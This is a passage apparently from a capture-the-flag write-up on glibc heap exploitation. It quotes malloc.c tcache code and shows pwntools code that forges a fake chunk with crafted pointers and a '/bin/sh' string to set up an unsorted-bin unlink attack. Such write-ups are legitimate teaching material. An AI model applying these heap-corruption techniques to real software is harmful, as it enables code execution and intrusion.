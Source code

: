 ``` c
		{
		  tcache_put (victim, tc_idx);
		  return_cached = 1;
		  continue;
		}
	      else
		{
#endif
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
#if USE_TCACHE
		}
#endif
            }
```
Yes it looks messy and it is. But we see that no further sorting will be done as we return `p` on line 3814 in `malloc.c`.

This means that we now completed the first goal:
We can allocate back 0x601 and get full control of the first and only chunk in the unsrotedbins which is prefect for doing unlink attack in unsortedbin:

![gdb output 4](imgs/gdb_out4.png)

Code that created this allocation:

``` python
mem = elf.symbols['mem']
create(1, 0x5f0, flat({
    0x0: b"/bin/sh\x00",
    0x500: p64(0x0),
    0x508: p64(0x511),
    0x510: p64(mem-0x18),
    0x518: p64(mem-0x10),
}))
```
